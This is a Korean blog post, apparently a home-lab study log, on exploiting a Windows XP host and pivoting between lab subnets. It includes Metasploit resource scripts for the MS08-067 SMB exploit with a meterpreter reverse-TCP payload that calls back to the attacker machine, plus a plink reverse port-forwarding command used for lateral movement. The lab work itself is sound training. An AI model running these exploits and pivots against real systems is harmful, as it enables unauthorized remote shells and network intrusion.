 ```yaml
---
title: 원격 서비스 공격과 측면 이동
author:
  name: Cotes Chung
  link: https://github.com/cotes2020
date: 2022-05-26 20:00:00 +0800
categories: [Blogging, Network]
tags: [getting started]
pin: false
---
```


## Step1. 환경 구성

---

### 환경 구성

환경 구성은 다음과 같다.

ip가 56번(내부) 대역에서 57번(외부) 대역으로 서비스에 접근할 수 있지만, 57번(외부) 대역에서 56번(내부) 대역으로는 서비스 접속이 안되게 설정한다.

![1](https://user-images.githubusercontent.com/59737252/170284643-3a53495b-bfc3-4dc4-8f44-a36d04208285.png){: width="90%"}

<br>

### 방화벽 구성하기 전 확인

우선 다음과 같이 방화벽을 꺼둔다. (공격이 확인되어야 하기 때문에)

![1](https://user-images.githubusercontent.com/59737252/170666044-6b0c1649-677e-4ae2-9577-8612f9ffffe5.png)

방화벽이 꺼져있기 때문에 다이렉트로 통신이 가능하다.

![2](https://user-images.githubusercontent.com/59737252/170667473-4001967a-3c6a-4fac-a406-2de8008c9eec.png){: width="50%"}

<br>

다음으로 공격 스크립트를 작성한다.

현재 이 스크립트는 공격하기 위함이 아닌, 공격이 제대로 되는지 확인하기 위한 <span style="background-color: #fff5b1">검증</span>이다.

> kali에서 진행한다.

> ms08_067_meterpreter_reverse_tcp.rc

```vim
use exploit/windows/smb/ms08_067_netapi
set RHOST 192.168.56.20
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.57.10
exploit
```

<br>

공격이 성공적으로 되었다면 아래와 같이 뜰것이다.

![4](https://user-images.githubusercontent.com/59737252/170669309-34b38d44-af7b-48ab-91af-3c305c7e86b0.png)

<br>

만약 아래처럼 나왔다면?

다음과 같은 경우를 생각해봐야 한다.

- 시스템이 켜져 있는지 확인해야 한다.
- 핑이 잘 가는지 확인해봐야 한다. (192.168.57.10 -> 192.168.56.20)

![3](https://user-images.githubusercontent.com/59737252/170668257-20b3ed2c-d076-4b97-9b30-0e3944df67f5.png)

<br>

---

<br>

잘 되었다면, 방화벽은 다음과 같이 설정한다.

외부에서 내부로 서비스 거부하도록 설정한 것이다.

![2](https://user-images.githubusercontent.com/59737252/170301426-f3f817f4-70f7-4401-9747-f7870859072e.png)

<br>

## Step2. 세션 획득

---

msfconsole을 이용하여 윈도우 xp의 세션을 획득한 후 진행한다.

세션을 얻는 방법은 저번에 사용했던 방법을 참고하면 된다.

<br>

## Step3. 측면 이동

---

### plink 사용

kali에서 세션을 얻은 상태에서 다음 명령어를 입력한다.

```console
C:\WINDOWS\Temp> plink -R 8888:192.168.56.20:445 -l root -pw lab 192.168.57.10
```

접속할 윈도우(192.168.56.20)의 445번 포트(smb)를 사용하여 접속하는 명령어 이다.

실행 후 포트가 열려있는지 확인한다.

<span style="background-color: #fff5b1">lsof -i:8888</span> 또는 <span style="background-color: #fff5b1">netstat -atunp &#124; grep 8080</span> 으로 확인한다.

![7](https://user-images.githubusercontent.com/59737252/170676904-599ac8e5-e3f7-4d08-b137-64148d3359c5.png)

<br>

### 공격 스크립트 작성

> kali에서 진행한다.

> ms08_067_meterpreter_reverse_tcp_relay.rc

```vim
use exploit/windows/smb/ms08_067_netapi
set RHOST 127.0.0.1
set RPORT 8888
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.57.10
exploit
```

127.0.0.1:8888 을 통해 접속하면 192.168.56.20:445으로 포트 포워딩 되어 smb를 이용한 공격이 실행된다.

공격을 시도 했지만 아래처럼 나오게 될 경우

![5](https://user-images.githubusercontent.com/59737252/170674747-c86ae857-f687-4878-938c-99e5bf613cd8.png)

<center >or</center>

![6](https://user-images.githubusercontent.com/59737252/170676412-eb2d5316-349c-454b-b16d-e1af10da1f3c.png)

- 윈도우에서 칼리리눅스로 ping이 가는지 확인한다
  - (192.168.56.10, 192.168.56.20 -> 192.168.57.10)
- 윈도우끼리 핑이 가는지 확인한다.
  - (192.168.56.10 <-> 192.168.56.20)
- 핑이 안간다면 ncpa.cpl을 통해 네트워크 카드를 껐다가 다시 킨다.

![9](https://user-images.githubusercontent.com/59737252/170678143-4978af45-be4c-493d-91cd-a63c28920dcf.png) {: width="70%"}

<br>

위의 경우를 확인하였는데도 안되었다면

- (kali에서) fuser -k 8888/tcp
  - 8888번 포트를 죽인다.
- plink -R 8888:192.168.56.20:445 -l root -pw lab 192.168.57.10
  - plink를 다시 한다.
- 윈도우#2 를 재부팅 한다.
  - 다시 ping 확인( 안되면 네트워크 카드 껐다가 다시 킨다 )
- msfconsole을 다시 exploit 한다.

<br>

그러면 정상적으로 meterpreter 쉘을 얻을 수 있다.

![8](https://user-images.githubusercontent.com/59737252/170677854-af69ddf1-de96-45b2-80cd-09a24b128abc.png)
